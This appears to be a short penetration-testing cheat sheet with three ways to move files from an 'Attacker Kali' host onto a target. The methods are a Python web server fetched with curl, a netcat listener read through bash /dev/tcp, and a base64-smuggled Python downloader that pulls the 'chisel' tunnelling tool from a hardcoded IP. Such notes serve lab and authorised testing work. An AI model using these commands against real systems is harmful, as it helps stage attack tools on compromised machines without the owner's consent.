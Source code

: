
### [CASE 1]
```bash title="Attacker Kali"
python3 http.server 80
```

```bash title="Target"
curl <Attacker Kali IP>:80/filename
```


### [CASE 2]
```bash title="Attacker Kali"
nc -lvnp 80 < filename
```

```bash title="Target"
bash -c "cat < /dev/tcp/[Attacker Kali IP]/[PORT] > /tmp/filename"
```



### [CASE 3]
```python title="test.py"
import urllib.request

server_ip = '172.16.1.10'
server_port = 9090
file_to_download = 'chisel'

output_file = file_to_download

url = f'http://{server_ip}:{server_port}/{file_to_download}'

print(f"Download: {url}")
try:
    with urllib.request.urlopen(url) as response, open(output_file, 'wb') as out_file:
        out_file.write(response.read())
        print(f"Downloaded {url} to {output_file} Save")
        

except Exception as e:
    print(f"Failed to download: {e}")
```

```bash title="Kali"
cat test.py | base64 > d
```

```bash title="Target"
echo "d 파일 내용" | base64 -d > test.py

python3 test.py
```


